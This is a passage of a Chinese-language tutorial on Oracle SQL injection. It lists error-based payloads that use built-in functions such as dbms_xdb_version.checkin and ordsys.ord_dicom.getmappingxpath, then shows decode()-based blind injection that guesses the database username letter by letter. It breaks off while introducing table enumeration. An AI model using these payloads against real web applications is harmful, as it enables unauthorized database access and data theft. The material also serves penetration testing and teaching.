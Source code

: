 其他函数包括：

```
dbms_xdb_version.checkin()
and (select dbms_xdb_version.checkin((select user from dual)) from dual) is not null --
bms_xdb_version.makeversioned()
and (select dbms_xdb_version.makeversioned((select user from dual)) from dual) is not null --
dbms_xdb_version.uncheckout()
and (select dbms_xdb_version.uncheckout((select user from dual)) from dual) is not null --
dbms_utility.sqlid_to_sqlhash()
and (SELECT dbms_utility.sqlid_to_sqlhash((select user from dual)) from dual) is not null --
ordsys.ord_dicom.getmappingxpath()
and 1=ordsys.ord_dicom.getmappingxpath((select user from dual),user,user) --
decode()
and 1=(select decode(substr(user,1,1),'S',(1/0),0) from dual) --
```

注意：不会显示报错信息，需要通过页面来判断。当 substr(user,1,1)=‘S’页面报错，其他情况页面无报错也不会显示数据。类似盲注。

*   decode(条件, 值 1, 返回值 1, 值 2,
    
    返回值 2,… 值 n, 返回值 n, 缺省值)
    

```
SELECT ID,NAME,AGE,decode(SEX,1,'男'，0，'女') from DEMO;
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGl6qvumXooYHFlTiabrmEuS0eKmW2SLD3cGY3HzyHicDqqHN8Cx5v7ThvA/640?wx_fmt=png)

```
1 and 1=(select decode(substr(user,1,1),'A',(1/0),0) from dual) --1 and 1=(select decode(substr(user,1,1),'B',(1/0),0) from dual) --
```

上述测试结果为页面正常，不显示任何数据。

```
1 and 1=(select decode(substr(user,1,1),'T',(1/0),0) from dual) --
```

显示结果如下，说明当前用户的首字母是 T，代码 decode(substr(user,1,1), ‘T’, (1/0), 0) 中 substr(user,1,1)=‘T’ 时，就返回 (1/0) 的值，但是 0 不能为分母，所以报错！

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlxmVwqaOWzp1IJq1Yh4ibzFhF35ibM7fsmTNNAicjiaUJAiafNQmLjXAbTCw/640?wx_fmt=png)

**第三步，爆出当前数据库名。**  
使用 SQL 语句如下，其中 distinct 是去重，几个核心的表需要大家记住。

*   user_tab_columns
    
    保存当前用户的表、视图等
    
*   all_tab_columns
    
    帮助查询用户下的所有的表和列
    
*   all_tables
    
    显示与当前用户可访问的表
    